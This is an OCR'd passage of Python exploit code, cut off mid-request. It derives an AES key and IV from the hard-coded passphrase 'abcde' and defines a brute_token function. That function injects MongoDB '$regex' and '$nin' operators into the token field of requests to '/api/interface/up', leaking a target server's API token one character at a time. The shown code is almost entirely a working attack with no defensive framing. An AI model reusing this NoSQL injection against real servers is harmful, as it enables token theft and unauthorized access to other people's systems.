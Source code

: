 ```python
    key = ''
    iv = ''
    p = ''

    while True:
        h = hashlib.md5()
        h.update(binascii.unhexlify(p))
        h.update(passphase.encode())
        p = h.hexdigest()

        i = 0
        n = min(len(p) - i, 2 * nkey)
        nkey -= n // 2
        key += p[i:i + n]
        i += n
        n = min(len(p) - i, 2 * niv)
        niv -= n // 2
        iv += p[i:i + n]
        i += n

        if nkey + niv == 0:
            return binascii.unhexlify(key), binascii.unhexlify(iv)


def aes_encode(data):
    key, iv = compute('abcde')
    padder = padding.PKCS7(128).padder()
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv))
    encryptor = cipher.encryptor()
    ct = encryptor.update(padder.update(data.encode()) + padder.finalize()) + encryptor.finalize()
    return binascii.hexlify(ct).decode()


def aes_decode(data):
    key, iv = compute('abcde')
    unpadder = padding.PKCS7(128).unpadder()
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv))
    decryptor = cipher.decryptor()
    ct = decryptor.update(binascii.unhexlify(data)) + decryptor.finalize()
    ct = unpadder.update(ct) + unpadder.finalize()
    return ct.decode().strip()


def brute_token(target, already):
    url = urljoin(target, '/api/interface/up')
    current = '^'
    for i in range(20):
        for ch in choices:
            guess = current + ch
            data = {
                'id': -1,
                'token': {
                    '$regex': guess,
                    '$nin': already
                }
            }
            headers = {
                'Content-Type': 'application/json'
            }
            response = requests.post(url,
                                     data=json.dumps(data),
                                     headers=headers,
```